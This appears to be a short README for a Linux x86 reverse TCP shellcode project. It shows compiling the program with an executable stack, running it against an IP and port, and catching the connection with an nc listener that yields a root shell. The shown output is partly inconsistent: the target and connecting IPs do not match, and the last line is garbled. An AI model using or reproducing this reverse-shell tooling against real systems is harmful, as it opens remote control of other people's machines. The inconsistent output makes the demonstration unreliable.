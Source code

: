 # Linux-x86-Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.137 4444
        Connecting to 192.168.1.236 (0xec01a8c0):4444 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4444
        Listening on 0.0.0.0 4444
        Connection received on 192.168.1.137 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
